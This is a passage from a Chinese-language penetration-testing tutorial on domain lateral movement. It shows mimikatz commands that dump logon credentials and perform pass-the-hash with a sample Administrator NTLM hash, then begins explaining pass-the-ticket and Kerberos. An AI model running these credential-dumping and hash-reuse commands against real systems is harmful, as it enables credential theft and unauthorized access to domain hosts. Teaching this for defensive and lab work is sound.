     privilege::debug  
    sekurlsa::logonpasswords  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220220001658.png)

    
    
    # Hash  
      
    user:Administrator  
    domain:GOD  
    ntlm:8a963371a63944419ec1adf687bb1be5  
      
    sekurlsa::pth /user:Administrator /domain:GOD /ntlm:8a963371a63944419ec1adf687bb1be5  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220220001708.png)

可以看到NTML Hash已经对GOD使用，这样的话访问远程主机或服务，就不需要再提供明文密码

![](https://gitee.com/fuli009/images/raw/master/public/20220220001709.png)

除了mimikatz这个工具还有 **wmiexe** ， **CrackMapExec** 等工具，等你去发掘！

## 0x03 Pass The Ticket

票据传递攻击（PTT）是一种使用Kerberos票据代替明文密码或NTLM哈希的方法。PtT最常见的用途可能是使用黄金票据和白银票据，通过PtT访问主机相当简单。

    
    
    # Kerberos身份验证流程:  
    https://www.cnblogs.com/zpchcbd/p/11707302.html  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220220001711.png)

    
    
    kerberos原理：  
      打个比方：就好比A需要进入公司办公处，首先需要去门卫处验证是否是这个公司的人(也就是通过AS的认证)；然后通过门卫确认后，拿着门卫的凭证(也就是我们所需要TGT)去办公处里面，这时候我们如果需要去领导办公室查询资料(就是访问Sever)，那么就需要通过办公处的前台去登记，让前台确认我们是否有去查询的资格，当确认我们有资格后会给予凭证(就是ST)，我们就可以拿着这个凭证去领导办公室查询资料了。  
      
    借用我们上面的比方：来带入我们kerberos中：  
      
        * 首先 Client 向域控制器 DC 请求访问 Server，DC 通过去 AD 活动目录中查找依次区分 Client 来判断 Client 是否可信；  
        * 认证通过后返回 TGT 给 Client，Client 得到 TGT（Ticket GrantingTicket）；  
        * Client 继续拿着 TGT 请求 DC 访问 Server，TGS 通过 Client 消息中的 TGT，判断 Client 是否有访问权限；  
        * 如果有，则给 Client 有访问 Server 的权限 Ticket，也叫 ST（ServiceTicket）；  
        * Client 得到 Ticket 后，再去访问 Server，且该 Ticket 只针对这一个 Server有效；  
        * 最终 Server 和 Client 建立通信。  
          
    摘自:https://blog.csdn.net/nicai321/article/details/122614894  
    

#### 票据传递攻击：
